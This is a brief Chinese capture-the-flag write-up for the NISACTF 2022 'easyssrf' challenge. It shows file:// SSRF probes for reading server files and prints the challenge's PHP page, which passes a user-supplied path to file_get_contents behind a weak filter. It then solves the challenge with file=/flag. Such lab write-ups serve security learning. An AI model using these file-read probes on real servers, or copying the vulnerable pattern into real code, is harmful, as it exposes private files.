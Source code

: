 #PHP伪协议 #SSRF

利用文件协议
`file://`
回显：
害羞羞，试试其他路径？

`file:///flag`
回显：
都说了这里看不了flag。。但是可以看看提示文件：/fl4g

`file:///fl4g`
回显：
你应该看看除了index.php，是不是还有个ha1x1ux1u.php

访问 ha1x1ux1u.php
```php
 <?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file); 
```

传入 `file=/flag`
over

参考
[[NISACTF 2022]easyssrf wp（SSRF入门）_Leafzzz__的博客-CSDN博客](https://blog.csdn.net/Leaf_initial/article/details/130072727)